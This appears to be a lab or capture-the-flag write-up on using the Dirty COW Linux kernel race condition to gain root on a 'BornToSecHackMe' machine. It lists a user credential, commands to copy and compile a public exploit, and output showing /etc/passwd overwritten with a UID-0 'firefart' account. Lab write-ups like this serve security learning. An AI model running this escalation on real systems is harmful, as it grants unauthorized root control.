 ### Dirty cow exploit:
---
- Summary

A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. All the information we have so far is included in this page.

The bug has existed since around 2.6.22 (released in 2007) and was fixed on Oct 18, 2016. List of patched versions here

There are proof of concepts available [here](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs).

---
- to exploit the root with dirtycow we have to access to any user shell first
- we chosse : 
    ```
    user : laurie
    pswd : 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
    ```
- copy dirtycow exploit code from [here](https://github.com/FireFart/dirtycow/blob/master/dirty.c) to the laurie server, 
    `scp dirty.c laurie@10.11.100.146:~`
- compile it as the documentation says and exploit the root:
    ```
    laurie@BornToSecHackMe:~$ gcc -pthread delthis.c -o dirty -lcrypt
    gcc -pthread delthis.c -o dirty -lcrypt
    ```
- execute the binary and give any password you want
    ```
    laurie@BornToSecHackMe:~$ ./dirty
    ./dirty
    /etc/passwd successfully backed up to /tmp/passwd.bak
    Please enter the new password: 123456

    Complete line:
    firefart:fi8RL.Us0cfSs:0:0:pwned:/root:/bin/bash

    mmap: b7fda000
    madvise 0

    ptrace 0
    Done! Check /etc/passwd to see if the new user was created.
    You can log in with the username 'firefart' and the password '123456'.


    DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
    Done! Check /etc/passwd to see if the new user was created.
    You can log in with the username 'firefart' and the password '123456'.


    DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
    laurie@BornToSecHackMe:~$
    ```
- test to see if root's pswd changed
    ```
    laurie@BornToSecHackMe:~$ su firefart
    Password:
    firefart@BornToSecHackMe:/home/laurie# whoami
    firefart
    firefart@BornToSecHackMe:/home/laurie# su
    firefart@BornToSecHackMe:/home/laurie#
    ```
---

##### References :
- https://dirtycow.ninja/